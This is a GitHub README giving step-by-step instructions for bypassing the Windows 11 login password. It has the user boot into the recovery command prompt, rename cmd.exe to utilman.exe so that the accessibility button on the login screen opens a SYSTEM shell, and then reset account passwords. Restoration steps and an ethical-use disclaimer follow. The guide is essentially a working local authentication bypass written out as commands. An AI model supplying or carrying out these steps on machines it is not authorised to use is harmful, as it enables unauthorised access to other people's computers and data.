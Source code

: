 # password-bypass-windows-
Windows 11 Password Bypass Guide
# Windows 11 Password Bypass Guide

## Overview
This guide outlines the steps to bypass the password for Windows 11 using the command prompt and system utility files. It is intended for **ethical use only** in scenarios where the user has authorization to access the system (e.g., forgotten passwords).

## Steps to Bypass the Windows 11 Password:
1. **Restart the System**: 
   - Hold the **Shift key** while restarting.
   - Navigate to **Troubleshoot** > **Advanced Options** > **Command Prompt**.

2. **Check Windows Directory**:
   - Identify the correct drive (usually `C:` or `D:`).
   - Confirm it contains Windows system files.
   
3. **Access System32**:
   ```bash
   cd Windows/System32
   
4. **Rename Utility Manager**:
   ```bash
   ren utilman.exe utilman1.exe

5. **Replace Utility Manager with CMD**:
   ```bash
   ren cmd.exe utilman.exe

6. **Continue Booting**:
   - Once Windows boots to the login screen, open the Accessibility menu.
   - The Command Prompt should open instead of the utility manager.

7. **Reset Password**:
   - In the CMD window, run:
     ```bash
     control userpasswords2
   - Select the user account and reset the password.


## Restoring Utility Manager:
**After accessing the system, you can restore the utility manager with the following steps:**

1. **Restart in Command Prompt**: 
   - Follow the same steps to access the Command Prompt via the Advanced Options menu.

2. **Restore Utility Manager**:
   ```bash
   cd Windows/System32
   ren utilman.exe cmd.exe
   ren utilman1.exe utilman.exe

## Disclaimer:
  **This guide is for educational purposes and should only be used on systems where you have explicit permission to perform such actions. Unauthorized use could violate privacy laws and result in legal consequences.**
